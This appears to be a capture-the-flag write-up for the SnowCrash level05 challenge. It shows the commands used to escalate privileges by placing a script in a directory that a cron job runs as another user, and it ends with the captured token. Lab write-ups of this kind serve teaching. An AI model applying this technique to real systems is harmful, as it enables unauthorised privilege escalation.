 # level05

```
level05@192.168.56.103's password: 
You have new mail.
```

checking in /var/mail:
```
level05@SnowCrash:~$ ls /var/mail/
level05
level05@SnowCrash:~$ cat /var/mail/level05 
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```

Let's find something to eat:
```
level05@SnowCrash:~$ ls -la /usr/sbin/openarenaserver
-rwxr-x---+ 1 flag05 flag05 94 Mar  5  2016 /usr/sbin/openarenaserver
level05@SnowCrash:~$ cat /usr/sbin/openarenaserver
#!/bin/sh

for i in /opt/openarenaserver/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done
```

We do a little script in /tmp/script.sh and copy it:
```
level05@SnowCrash:~$ cat /tmp/script.sh
whoami > /tmp/flag.txt
getflag >> /tmp/flag.txt
level05@SnowCrash:~$ cp -f /tmp/script.sh /opt/openarenaserver/
```

Wait a bit and then doneee:
```
level05@SnowCrash:~$ cat /tmp/flag.txt
flag05
Check flag.Here is your token : viuaaale9huek52boumoomioc
```
